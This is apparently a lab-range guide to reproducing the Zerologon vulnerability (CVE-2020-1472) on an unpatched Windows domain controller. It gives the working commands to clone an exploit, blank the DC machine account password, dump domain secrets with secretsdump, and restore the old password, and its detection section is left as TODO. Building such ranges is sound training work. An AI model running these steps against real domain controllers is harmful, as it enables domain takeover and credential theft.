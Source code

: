 # Zerologon (CVE-2020-1472)
## Summary

This vulnerability stems from a flaw in a cryptographic authentication scheme used by the Netlogon Remote Protocol, which among other things can be used to update computer passwords. This flaw allows attackers to impersonate any computer, including the domain controller itself, and execute remote procedure calls on their behalf. 

## Prerequisites

This exploit requires at least one DC to be set up and configured. The DC *must* not have the patch, i.e. install the DC from before August 11th, 2020, or attempt to delete all of the KB security updates which may not work. **Windows Server 2008 R2 SP1** requires an ESU license for the patch to apply, which is atypical, making this version the ideal target for configuring a range with this vulnerability.

## Setup

If the prerequisites have been met, then any Zerologon exploit should work out of the box.

## Execution

### Method 1 - Changing DC's Machine Account Password

Clone the repository at https://github.com/risksense/zerologon, by either downloading the zip file or running the following command:

```bash
git clone https://github.com/risksense/zerologon
```

If there are any issues, update or reinstall impacket. Then, in the same directory as the cloned repository, run the following command:

```bash
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

Then, the DC's machine accounts hash is set to `31d6cfe0d16ae931b73c59d7e0c089c0`. This can be used with impacket's pass-the-hash functionality. I.e. dumping secret:

```bash
sudo secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

To reinstall the old machine password, you must use the Administrator hash you got from secretsdump, and then run secrets dump again using that hash:

```
sudo secretsdump.py -hashes :<Administrator NTLM Hash> 'DOMAIN/Administrator@dc_ip_addr'
```

This will give you much more output than before, and this will also give you the old machine account hash:

![image](./images/Pasted%20image%2020230629110911.png)

```bash
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

#### Indicators of Compromise

TODO
